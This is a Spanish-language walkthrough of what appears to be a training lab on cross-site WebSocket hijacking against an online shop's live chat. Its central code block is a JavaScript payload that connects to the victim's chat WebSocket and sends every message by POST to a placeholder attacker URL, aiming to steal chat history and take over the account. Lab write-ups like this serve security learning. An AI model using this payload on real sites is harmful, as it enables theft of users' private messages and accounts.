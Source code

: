 `TAREA:` Esta tienda en línea tiene una función de chat en vivo implementada mediante WebSockets.

Para resolver el laboratorio, utilice el servidor de exploits para alojar una carga útil HTML/JavaScript que utiliza un ataque de secuestro de WebSocket entre sitios para exfiltrar el historial de chat de la víctima y luego usar esto para obtener acceso a su cuenta.

iniciamos sesión y rápidamente podemos ver que tenemos una cookie de sesión y el parámetro `Same Site` esta configurado como `None`
![[Pasted image 20250729130722.png]]

si analizamos la petición podemos ver que la solicitud del mensaje se envía al servidor haciendo un llamado a recurso `/resources/js/chat.js`
![[Pasted image 20250729134949.png]]

analizamos el json `chat.js` Ese código es un script JavaScript autoejecutable que implementa la interfaz del chat en tiempo real y utiliza la función de WebSockets
![[Pasted image 20250729135359.png]]

partiendo de esta idea podemos crear nuestra conexión web socket para exfiltrar esta información

```python
<script> 
var ws = new WebSocket('wss://your-websocket-url'); 
ws.onopen = function() { ws.send("READY"); 
}; 
ws.onmessage = function(event) { 
fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data}); 
}; 
</script>
```

- **Se conecta a un servidor WebSocket**
    
    - El navegador establece una conexión con un servidor remoto (controlado por el atacante o sistema).
        
    - Esta conexión se mantiene abierta para recibir mensajes en tiempo real.
        
- **Envía una señal de "listo"**
    
    - Al establecer la conexión, el navegador envía un mensaje tipo `"READY"` para avisar que está conectado y esperando instrucciones.
        
- **Escucha mensajes entrantes**
    
    - El servidor WebSocket puede enviar mensajes al navegador.
        
- **Reenvía esos mensajes a otro servidor**
    
    - Cada mensaje recibido es automáticamente enviado (como una solicitud POST) a otra URL, bajo control del atacante. en este caso el WebSocket que hemos creado 

![[Pasted image 20250729142914.png]]

una vez realizado esto solo debemos esperar a que la victima haga clic en la solicitud para recibir la informacion
![[Pasted image 20250729142857.png]]

ahora solo nos queda limpiar nuestros mensajes y decodearlos.
![[Pasted image 20250729143812.png]]